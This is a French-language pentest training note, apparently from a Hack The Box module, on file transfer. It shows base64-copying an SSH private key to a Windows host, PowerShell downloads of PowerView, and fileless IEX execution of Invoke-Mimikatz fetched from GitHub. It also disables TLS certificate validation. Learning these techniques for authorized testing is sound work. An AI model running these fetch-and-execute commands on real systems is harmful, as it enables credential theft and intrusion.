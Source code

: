 # Le transfert de fichier 

## Powershell base64 décode encode 

Check de la clé ssh en hash md5

>freeeee@htb[/htb]$ md5sum id_rsa
>
>4e301756a07ded0a2dd6953abf015278  id_rsa

Encodage de la clé en base64

>freeeee@htb[/htb]$ cat id_rsa |base64 -w 0;echo
>
>LS0tLS1CRUdJTiBPUEVOU1NIIFBSSVZBVEUgS0VZLS0tLS0K...

Nous pouvons copier ce contenu et le coller dans une borne Windows PowerShell et utiliser certaines fonctions PowerShell pour le décoder.

>PS C:\htb> [IO.File]::WriteAllBytes("C:\Users\Public\id_rsa", [Convert]::FromBase64String("LS0tLS1CRUdJTiBPUEVOU1NIIFBSSVZBVEUgS0VZLS0tLS0K...

Enfin, nous pouvons confirmer si le fichier a été transféré avec succès à l'aide du Get-FileHash cmdlet, qui fait la même chose que md5sum fait.

```powershell
PS C:\htb> Get-FileHash C:\Users\Public\id_rsa -Algorithm md5

Algorithm       Hash                            Path
---------       ----                            ----
MD5      4E301756A07DED0A2DD6953ABF015278        C:\Users\Public\id_rsa
```

## Téléchargements Web PowerShell

PowerShell propose de nombreuses options de transfert de fichiers. Dans n'importe quelle version de PowerShell, le System.Net.WebClient la classe peut être utilisée pour télécharger un fichier sur HTTP, HTTPS ou FTP. Les éléments suivants table décrit les méthodes WebClient pour télécharger des données à partir d'une ressource:


| Method |	Description |
| --- | ---|
|OpenRead |	Renvoie les données d'une ressource en tant que Flux.
OpenReadAsync | 	Renvoie les données d'une ressource sans bloquer le thread appelant.
DownloadData |Télécharge les données d'une ressource et renvoie un tableau d'octets.
DownloadDataAsync |		Télécharge les données d'une ressource et renvoie un tableau d'octets sans bloquer le thread appelant.
DownloadFile |		Télécharge les données d'une ressource vers un fichier local.
DownloadFileAsync |	Télécharge les données d'une ressource vers un fichier local sans bloquer le thread appelant.
DownloadString | Télécharge une chaîne à partir d'une ressource et renvoie une chaîne.
DownloadStringAsync | 	Télécharge une chaîne à partir d'une ressource sans bloquer le fil appelant.

### Méthode PowerShell DownloadFile

Nous pouvons spécifier le nom de la classe Net.WebClient et la méthode DownloadFile avec les paramètres correspondant à l'URL du fichier cible à télécharger et le nom du fichier de sortie.

````powershell
PS C:\htb> # Example: (New-Object Net.WebClient).DownloadFile('<Target File URL>','<Output File Name>')
PS C:\htb> (New-Object Net.WebClient).DownloadFile('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1','C:\Users\Public\Downloads\PowerView.ps1')

PS C:\htb> # Example: (New-Object Net.WebClient).DownloadFileAsync('<Target File URL>','<Output File Name>')
PS C:\htb> (New-Object Net.WebClient).DownloadFileAsync('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1', 'PowerViewAsync.ps1')
````

### PowerShell DownloadString - Méthode sans fichier

Comme nous l'avons vu précédemment, les attaques sans fichier fonctionnent en utilisant certaines fonctions du système d'exploitation pour télécharger la charge utile et l'exécuter directement. PowerShell peut également être utilisé pour effectuer des attaques sans fichier. Au lieu de télécharger un script PowerShell sur disque, nous pouvons l'exécuter directement en mémoire à l'aide du Invoke-Expression cmdlet ou l'alias IEX.

```powershell
PS C:\htb> IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1')
```
IEX accepte également les entrées de pipeline.

```powershell
PS C:\htb> (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1') | IEX
```
### PowerShell Invoke-WebRequest

À partir de PowerShell 3.0, le Invoke-WebRequest cmdlet est également disponible, mais il est nettement plus lent à télécharger des fichiers. Vous pouvez utiliser les alias iwr, curl, et wget au lieu de la Invoke-WebRequest nom complet.

```powershell
PS C:\htb> Invoke-WebRequest https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 -OutFile PowerView.ps1
```

https://gist.github.com/HarmJ0y/bb48307ffa663256e239

### Erreurs courantes avec PowerShell

Il peut y avoir des cas où la configuration de la première lancement d'Internet Explorer n'est pas terminée, ce qui empêche le téléchargement.

![](./capture/1.PNG)

Cela peut être contourné à l'aide du paramètre -UseBasicParsing.

```powershell
PS C:\htb> Invoke-WebRequest https://<ip>/PowerView.ps1 | IEX

Invoke-WebRequest : The response content cannot be parsed because the Internet Explorer engine is not available, or Internet Explorer's first-launch configuration is not complete. Specify the UseBasicParsing parameter and try again.
At line:1 char:1
+ Invoke-WebRequest https://raw.githubusercontent.com/PowerShellMafia/P ...
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
+ CategoryInfo : NotImplemented: (:) [Invoke-WebRequest], NotSupportedException
+ FullyQualifiedErrorId : WebCmdletIEDomNotSupportedException,Microsoft.PowerShell.Commands.InvokeWebRequestCommand

PS C:\htb> Invoke-WebRequest https://<ip>/PowerView.ps1 -UseBasicParsing | IEX
```

Une autre erreur dans les téléchargements PowerShell est liée au canal sécurisé SSL / TLS si le certificat n'est pas fiable. Nous pouvons contourner cette erreur avec la commande suivante:

```powershell
PS C:\htb> IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/juliourena/plaintext/master/Powershell/PSUpload.ps1')

Exception calling "DownloadString" with "1" argument(s): "The underlying connection was closed: Could not establish trust
relationship for the SSL/TLS secure channel."
At line:1 char:1
+ IEX(New-Object Net.WebClient).DownloadString('https://raw.githubuserc ...
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : NotSpecified: (:) [], MethodInvocationException
    + FullyQualifiedErrorId : WebException
PS C:\htb> [System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true}
```

## Téléchargements SMB

